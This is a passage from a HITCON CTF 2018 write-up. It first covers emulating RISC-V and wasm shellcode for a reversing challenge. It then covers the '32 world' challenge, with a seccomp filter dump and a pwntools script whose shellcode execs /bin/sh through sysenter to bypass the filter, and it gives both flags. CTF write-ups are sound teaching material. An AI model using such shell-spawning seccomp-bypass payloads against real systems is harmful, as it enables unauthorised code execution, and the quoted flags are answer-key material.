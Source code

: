 `binutils-riscv64-linux-gnu` exists and also `spike` can replace qemu

All we need to do is add some constant in **pwntools** and it will works perfectly.

For emulate, I use the same trick to get the return value through **exit code**

Notice that there is a infinite loop in the shellcode ( ~~maybe some kind of joke from the challenge maker ?~~ it's generated by the risc-v compiler for unknown reason ? )

`f0: 0000006f j 0xf0`

We need to strip the shellcode after this line to finish execution

#### wasm

And finally, after 7 architectures ( and get half of the flag ) is the final hidden architecture

We use [wabt](https://github.com/WebAssembly/wabt) tools

For emulate, I wrap the disassembled shellcode inside a function and re-assemble it back to wasm and use `wasm-interp` to emulate


```
(module
  (export "square" (func $square))
  (func $square (param) (result i32)
    shellcode...
  )
)

```

flag : `hitcon{U_R_D4_MA5T3R_0F_R3_AND_PPC_!#3}`
source code : https://github.com/OAlienO/CTF/tree/master/2018/HITCON-CTF/Baldis-RE-Basics

### 32 world

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0001: 0x15 0x00 0x01 0x00000000  if (A != 0x0) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW

```
* Use `sysenter` to bypass seccomp rules constraint.

```python
#!/usr/bin/env python
from pwn import *

# hitcon{s3cc0mp_1s_n0t_4lw4y_s4f3_LOL}

host , port = '54.65.133.244' , 8361
y = remote( host , port )

p = asm('''
	push 0x68732f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	mov ebp, esp
	sysenter
''')

y.sendafter( ':' , p )
y.interactive()

```